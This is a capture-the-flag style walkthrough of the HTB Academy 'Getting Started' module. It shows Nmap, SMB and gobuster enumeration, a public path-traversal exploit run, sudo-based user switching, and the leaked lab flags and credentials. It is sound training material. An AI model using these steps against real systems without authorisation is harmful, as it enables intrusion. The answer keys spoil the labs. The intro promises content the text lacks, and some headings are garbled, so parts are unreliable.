Welcome to **Part 1** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Getting Started** (Tier 0 • Fundamental • Fundamental). We break down the underlying mechanics of penetration testing fundamentals, network reconnaissance with Nmap, public-facing CMS vulnerability exploitation (Nibblesblog), Metasploit fundamentals, and privilege escalation on both Linux and Windows systems, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><div class="ff-nav-placeholder"></div>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 1 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-2-file-transfers/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 2: File Transfers</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Getting Started` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/77](https://academy.hackthebox.com/module/77) |
| **Curriculum Tier & Difficulty** | `Tier 0` • `Fundamental` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 1 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Structured Assessment Lifecycle**: Follows the industry-standard penetration testing phases: reconnaissance, scanning, vulnerability identification, exploitation, post-exploitation, and structured reporting.
* **Nmap Network Discovery**: Leverages TCP SYN scans (`-sS`), default scripts (`-sC`), and version detection (`-sV`) to uncover open services and attack surfaces without crashing target daemons.
* **Web Application Exploitation**: Identifies exposed management interfaces and executes arbitrary PHP file uploads via vulnerable plugins (Nibblesblog CVE-2015-6967) to establish reverse shell access.
* **Privilege Escalation Fundamentals**: Inspects user sudo privileges (`sudo -l`) and abuses writeable shell scripts executed as root to escalate from `nibbler` to `root`.
* **Lab Flag Verification**: Provides verified terminal commands, interactive bash prompts, and complete flag extractions across all sections.

## Executive Summary & Assessment Scope

The **Getting Started** module serves as the operational baseline for the entire Hack The Box CPTS curriculum. The engagement begins with target host reconnaissance using Nmap, cataloging active network ports (HTTP port 80 and SSH port 22) and analyzing exposed application banners.

Upon fingerprinting the target web server, we discover a Nibbles blogging platform instance. By navigating administrative directories, analyzing source comments, and performing credential verification, we gain access to the administrative panel. Exploitation is achieved by abusing unrestricted image upload functionality to execute a PHP web shell, establishing initial access as the `nibbler` user. Post-exploitation inspection of `sudo -l` reveals write permissions to `/home/nibbler/personal/stuff/monitor.sh`, which is leveraged to achieve full root privileges and capture all assessment flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Getting Started

> **Lab Question (Page 1)**: Apply what you learned in this section to grab the banner of the above server and submit it as the answer.
>
> **Flag / Answer**: `SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will run the command
`netcat <target-IP> <target-port>`


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


### Service Scanning

> **Lab Question (Page 2)**: Perform an Nmap scan of the target. What does Nmap display as the version of the service running on port 8080?
>
> **Flag / Answer**: `Apache Tomcat`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will run the nmap command:
```bash
nmap <target-IP> -p 8080 -sV
```


Question: Perform an Nmap scan of the target and identify the non-default
port that the telnet service is running on.
Answer: 2323
Method: we will run full ports scan with '-p-':
```bash
nmap <target-IP> -p-
```


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


### telnet port

> **Lab Question (Page 3)**: List the SMB shares available on the target host. Connect to the available share as the bob user. Once connected, access the folder called 'flag' and submit the contents of the flag.txt file
>
> **Flag / Answer**: `dceece590f3284c3866305eb2473d099`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will need to get a list of possible shares.
Method 1: we will use direct smbclient to get list of shares, with the provided
credentials 'bob:Welcome1':
```bash
smbclient -L //10.129.152.52 -U "bob"
```
we enter the password:


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


### SMB server, then login, we can use either

Method 2: we can use crackmapexec to get a hold of NetBIOS name of the
SMB server, then login, we can use either:
`nmblookup -A <target-IP>`


Or
```bash
crackmapexec smb <target-IP>
```


The possible names are 'GS-SVCSCSN' or 'WORKGROUP' , both will work for the
share listing, we will proceed with 'WORKGROUP':
```bash
crackmapexec smb <target-IP> --shares -u bob -p Welcome1 -d
'WORKGROUP'
```


Personally I prefer the crackmapexec as it directly shows the permissions to the
shares, and is sorted better.
Either way we have access to the share 'users', lets enter it:
```bash
smbclient -U bob \\\\<target-IP>\\users
```


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


*_Figure 4.3 — Lab execution and output verification (Page 4)_*


### confirmation – we will get its content with 'cat' command

#### Technical Methodology & Exploit Execution:

```bash
ls flag.txt
cat flag.txt
```


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


*_Figure 5.4 — Lab execution and output verification (Page 5)_*


### Web Enumeration

> **Lab Question (Page 6)**: Try running some of the web enumeration techniques you learned in this section on the server above, and use the info you get to get the flag.
>
> **Flag / Answer**: `HTB{w3b_3num3r4710n_r3v34l5_53cr375}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets access the target web-server in the browser:
`http://<target-IP>:<target-port>`


We get to this nice looking website.

It may contain hidden pages – lets use gobuster to check this out. We will use
the wordlist 'common.txt', pre-installed in the pwnbox in
'/usr/share/seclists/Discovery/Web-Content/common.txt':
```bash
gobuster dir -u http://<target-IP>:<target-port>/ -w
/usr/share/seclists/Discovery/Web-Content/common.txt
```


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### instruction guide for web-crawlers). Lets enter it

The scan found several possible pages, the relevant for us is 'robots.txt' (a
instruction guide for web-crawlers). Lets enter it:
`http://<target-IP>:<target-port>/robots.txt`


The robots.txt blocks crawlers entry to the page /admin-login-page.php (which
was not found in the scan). Lets go to it:
`http://<target-IP>:<target-port>/admin-login-page.php`


It is a login panel to admin user.
Lets inspect the page source to see if there is anything interesting:


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


### Lets login using the found 'admin:password123' credentials

→

Very quickly we can observer this cute little comment where they were king
enough to leave for us.
Lets login using the found 'admin:password123' credentials:


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


*_Figure 8.3 — Lab execution and output verification (Page 8)_*


### Public Exploits

> **Lab Question (Page 9)**: Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)
>
> **Flag / Answer**: `HTB{my_f1r57_h4ck}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets access the target web-server in the browser:
`http://<target-IP>:<target-port>`


We get to this page where they tell us that the server is using 'Simple Backup
Plugin' – version 2.7.10.
Lets make a quick google search on that plugin for exploit:

We get to this path traversal exploit – lets enter it:


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### Then we run it searching for the flag, using the command

#### Technical Methodology & Exploit Execution:

```bash
python exploit.py http://<target-IP>:<target-port> /flag.txt
11
```
where the parameters are:


Lets see the results:


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


*_Figure 10.3 — Lab execution and output verification (Page 10)_*


### Privilege Escalation

> **Lab Question (Page 11)**: SSH into the server above with the provided credentials, and use the '-p xxxxxx' to specify the port shown above. Once you login, try to find a way to move to 'user2', to get the flag in '/home/user2/flag.txt'.
>
> **Flag / Answer**: `HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first, lets ssh login to the target machine, using the target port – with
the provided credentials 'user1:password1'
```bash
ssh user1@<target-IP> -p <target-port>
```


*
*

We are in.
Inside 'user'1, lets run
```bash
sudo -l
```
to see what commands can we run as sudo:


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


*_Figure 11.3 — Lab execution and output verification (Page 11)_*


### We can run '/bin/bash' as user2. Lets do that

> **Lab Question (Page 12)**: Once you gain access to 'user2', try to find a way to escalate your privileges to root, to get the flag in '/root/flag.txt'.
>
